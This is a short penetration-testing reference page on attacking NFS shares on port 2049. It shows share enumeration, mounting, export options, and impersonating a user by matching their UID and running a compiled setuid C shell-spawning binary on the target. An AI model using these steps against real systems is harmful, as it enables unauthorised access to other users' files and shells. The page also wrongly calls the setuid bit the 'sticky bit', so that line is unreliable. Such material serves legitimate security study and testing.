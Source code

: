 ```yaml
---
title: PORT 2049/tcp - NFS
category: Services
order: 11
---
```


Network File System is a distributed file system protocol originally developed by Sun Microsystems in 1984, allowing a user on a client computer to access files over a computer network much like local storage is accessed.

# Enumeration

`showmount` gives us the opportunity to know which folder are available for us.

```
showmount -e <IP>
```

# Mounting the folder

We can mount the folder with `mount` command.

```
mount -t nfs [-o vers=2] <IP>:<NFS_FOLDER> <LOCAL_FOLDER> -o nolock
```

# Configuration

The file `/etc/exports` show the NFS configuration applied on the server.

```
$ cat /etc/exports
/var/nfsshare *(rw,sync,root_squash,no_all_squash)
/opt *(rw,sync,root_squash,no_all_squash
```

* `rw`: Means that we can read and write any file on the share.
* `root_squash` (default): Maps all the requests from UID/GID 0 to the anonymous UID/GID.
* `no_root_squash`: All requests from UID/GID 0 are not mapped to the anonymous UID/GID.
* `no_all_squash` (default): Not map all the requests from other UID/GID to the anonymous UID/GID .

> **Note**: If we have access to the server and a NFS share has this configuration, we can impersonate any user on the attack machine except for the root user.

# Impersonate a User (No Root)

So what we’ll do is add the user frank (user to impersonate) on our kali machine and change his id to 1000 (Assigned on the target).

```
❯ useradd frank
❯ cat /etc/passwd | grep frank
frank:x:1000:1000::/home/frank:/bin/sh
```

> **Note**: You can change any ID by modifying the `/etc/passwd` file.

Next step is create a `setuid.c` file:

```
#include <unistd.h>
int main()
{
    setreuid(1000,1000);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```

Then compile it:

```
gcc setuid.c -o setuid
```

Set the sticky bit on the file:

```
chmod u+s setuid
```

And execute it on the target machine.

# References

* [https://book.hacktricks.xyz/pentesting/nfs-service-pentesting](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)
* [https://ethicalhackingguru.com/how-to-enumerate-and-exploit-nfs-shares/](https://ethicalhackingguru.com/how-to-enumerate-and-exploit-nfs-shares/)
